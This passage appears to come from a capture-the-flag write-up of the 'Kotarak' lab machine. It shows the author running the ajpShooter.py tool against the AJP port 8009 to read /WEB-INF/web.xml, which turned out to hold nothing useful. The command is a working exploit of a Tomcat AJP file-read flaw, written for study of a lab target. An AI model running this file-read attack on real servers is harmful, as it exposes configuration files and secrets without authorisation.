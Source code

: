 
the usage seems pretty straighforward.

*from* `nmap`*'s output,* the `ajp_port` port is `8009`

```bash
python ajpShooter.py http://kotarak:8080 8009 /WEB-INF/web.xml read
```

![](/assets/Kotarak/ajpshooter-works.jpg)

We were **able to read** the `/WEB-INF/web.xml` file but **there wasn't anything useful in it**. So we move on..
